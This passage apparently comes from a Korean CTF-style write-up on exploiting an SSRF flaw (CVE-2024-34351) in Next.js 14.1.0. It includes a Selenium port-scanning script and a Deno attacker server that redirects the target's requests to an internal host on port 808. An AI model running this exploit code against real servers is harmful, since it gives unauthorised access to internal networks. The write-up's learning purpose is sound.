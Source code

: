 ```python
    # Submit 클릭
    submit_button = driver.find_element(By.XPATH, '//button[contains(text(), "Submit")]')
    submit_button.click()
    time.sleep(0.1)

    # alert 수신 시도
    try:
        alert = driver.switch_to.alert
        alert_text = alert.text
        alert.accept()
        print(f"Port {port} - ALERT: {alert_text}")
        if "Sended" in alert_text:
            print(f"SUCCESS SSRF on port {port}")
    except:
        # alert 없을 때 페이지 일부 출력
        print(f"Port {port} - No alert")
        print(f"Page source (first 300 chars):\n{driver.page_source[:300]}")

except Exception as e:
    print(f"Port {port} - Selenium error: {e}")
finally:
    driver.quit()
```

그 결과 808 port에 internal server가 존재하는 것을 확인했습니다.

문제는 next 14.1.0을 사용하는데 해당 버전에는 [CVE-2024-34351](https://www.cve.org/CVERecord?id=CVE-2024-34351)가 존재합니다.

ssrf 취약점인데 아래와 같은 ts 코드를 서버에서 실행 시킨 이후에 redirect가 발생하는 request의 origin과 host를 해당 서버의 주소로 설정하면 됩니다.

 https://github.com/God4n/nextjs-CVE-2024-34351-_exploit/blob/main/attacker-server.ts의 코드를 참조했습니다.

```tsx
// deno run --allow-net --allow-read attack.ts
Deno.serve(async (request: Request) => {
    const ssrf = request.headers.get('ssrf') || "http://192.168.200.120:808/";

    console.log("Request received: " + JSON.stringify({
        url: request.url,
        method: request.method,
        ssrf: ssrf,
    }));

    console.log(`Redirecting to: ${ssrf}`);

    if (request.method === 'HEAD') {
        return new Response(null, {
            headers: {
                'Content-Type': 'text/x-component',
            },
        });
    }

    if (request.method === 'GET') {
        return new Response(null, {
            status: 302,
            headers: {
                Location: ssrf,
                'Content-Type': 'text/x-component',
            },
        });
    }

    return new Response("Method Not Allowed", { status: 405 });
```